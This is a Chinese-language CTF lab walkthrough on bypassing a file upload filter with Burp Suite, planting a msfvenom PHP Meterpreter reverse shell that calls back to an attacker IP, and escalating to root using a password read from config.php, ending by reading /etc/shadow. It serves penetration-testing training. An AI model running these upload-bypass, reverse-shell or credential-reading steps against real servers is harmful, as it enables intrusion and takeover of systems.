# CTF综合测试(低难度)：P19：19.21. 文件上传绕过与权限提升实战 🚩

## 概述
在本节课中，我们将学习如何通过文件上传漏洞，绕过服务器的安全过滤机制，上传恶意Web Shell，并最终获取目标服务器的最高控制权（root权限）。整个过程将涵盖信息收集、漏洞利用、权限提升等关键渗透测试步骤。

---

## 回顾与目标
上一节我们通过模糊测试成功登录到系统后台，并找到了一个文件上传点。我们发现系统允许上传`.jpg`图片文件，但直接上传`.php`文件会被阻止。

本节中，我们将使用Burp Suite工具来绕过这个上传过滤机制，上传一个包含恶意代码的PHP文件（Web Shell），从而获得服务器的反弹Shell，并最终提权至root用户。





---

## 第一步：使用Burp Suite拦截并修改上传请求
为了绕过文件类型检查，我们可以先上传一个伪装成图片的PHP文件，然后在传输过程中修改其扩展名。

以下是具体操作步骤：



1.  将准备好的PHP文件重命名为`shell.jpg`，使其看起来像一个图片文件。
2.  在浏览器中配置并开启Burp Suite代理。
3.  在网站上传点选择`shell.jpg`进行上传。
4.  Burp Suite会拦截到上传请求。在拦截的数据包中，找到文件名参数（通常是`filename`），将其值从`shell.jpg`修改为`shell.php`。
5.  将修改后的数据包转发（Forward）给服务器。

**关键操作代码示意（在Burp Suite的Proxy模块中修改）：**
```
原始请求部分：
Content-Disposition: form-data; name="uploaded"; filename="shell.jpg"

修改后：
Content-Disposition: form-data; name="uploaded"; filename="shell.php"
```



完成上述步骤后，服务器将接收一个名为`shell.php`的文件，从而绕过了前端的文件类型检查。



---



## 第二步：验证文件上传与访问
文件上传成功后，我们需要确认它是否存在于服务器的可访问目录中（例如`/uploads/`）。



1.  访问网站的上传文件目录（如 `http://target/uploads/`）。
2.  在文件列表中寻找我们上传的`shell.php`文件。
3.  尝试点击或访问该文件链接。如果文件内容为空，页面将不会显示任何内容，这证明文件已成功上传并可被访问。



---



## 第三步：生成并上传真正的Web Shell
一个空的PHP文件没有作用。我们需要生成一个能连接回我们攻击机的恶意PHP脚本（即Web Shell）。





以下是生成和上传Web Shell的步骤：

1.  **在攻击机（Kali）上启动监听**：使用Metasploit框架监听一个端口，等待目标服务器连接回来。
    ```
    msfconsole
    use exploit/multi/handler
    set payload php/meterpreter/reverse_tcp
    set LHOST 192.168.253.12  # 攻击机IP
    set LPORT 4444            # 监听端口
    exploit
    ```

2.  **生成PHP反向Shell代码**：使用`msfvenom`工具生成一段PHP代码，这段代码执行后会反向连接到我们的监听端口。
    ```
    msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.253.12 LPORT=4444 -f raw > shell.php
    ```
    生成后，需要手动用文本编辑器（如`gedit`）打开`shell.php`，删除文件首行的PHP注释标记 `/*`，否则代码无法正常执行。

3.  **上传Web Shell**：重复**第一步**的操作流程。
    *   将`shell.php`重命名为`shell2.jpg`。
    *   通过Burp Suite拦截上传请求，将文件名改回`shell.php`。
    *   将文件上传至服务器。

4.  **触发Web Shell**：在浏览器中访问上传成功的`shell.php`文件路径（例如 `http://target/uploads/shell.php`）。此时，该脚本会在目标服务器上执行，并尝试连接回我们的攻击机。

5.  **获得初始Shell**：如果一切顺利，在Metasploit的监听窗口会看到一个新的Meterpreter会话建立成功。这表示我们已经获得了目标服务器的一个初始立足点。

---

## 第四步：权限提升（提权）至Root
通常，通过Web漏洞获得的Shell权限较低（例如`www-data`用户）。我们需要将其提升为最高权限（`root`）。

以下是提权过程：

1.  **信息收集**：在获得的Shell中，首先查看当前用户权限和系统信息。
    ```
    whoami
    id
    ```
    确认当前用户为非root用户（如`www-data`）。

2.  **寻找提权线索**：检查网站配置文件，寻找数据库连接信息等敏感数据，这些信息可能有助于提权。
    ```
    cat /var/www/html/config.php
    ```
    假设在配置文件中发现了MySQL数据库的root用户密码。

3.  **利用密码尝试提权**：在Linux系统中，如果知道root用户的密码，可以直接使用`su`命令切换身份。
    *   首先退出当前的Meterpreter Shell，回到一个更友好的交互式Shell。
        ```
        python -c 'import pty; pty.spawn("/bin/bash")'
        ```
    *   尝试使用发现的密码切换到root用户。
        ```
        su - root
        # 输入从配置文件中找到的密码
        ```
    如果密码正确，命令提示符会变成 `#`，表示已成功获得root权限。

4.  **验证Root权限**：执行命令确认提权成功。
    ```
    whoami
    # 输出应为 ‘root‘
    cat /etc/shadow # 尝试读取只有root能访问的文件
    ```

---

## 总结与要点
本节课中，我们一起完成了一次完整的低难度CTF渗透测试流程：

1.  **绕过过滤**：利用Burp Suite拦截修改HTTP请求，绕过了服务器的文件上传类型检查。
2.  **上传Web Shell**：生成并上传了能建立反向连接的恶意PHP脚本。
3.  **获得初始访问**：通过触发Web Shell，获得了目标服务器的低级权限Shell。
4.  **权限提升**：通过挖掘敏感信息（数据库密码），成功将权限提升至root用户。

通过本节的实践，需要掌握以下核心思路：
*   熟练掌握Burp Suite、Metasploit等安全工具的使用。
*   理解常见漏洞（如文件上传漏洞）的利用与绕过方法。
*   渗透测试是一个逐步深入的过程：从信息收集、漏洞利用、到权限提升和敏感信息获取。
*   在CTF比赛中，最终目标是获取`root`权限并找到`flag`值。



请记住，所有技术学习应仅用于合法的安全测试与防御。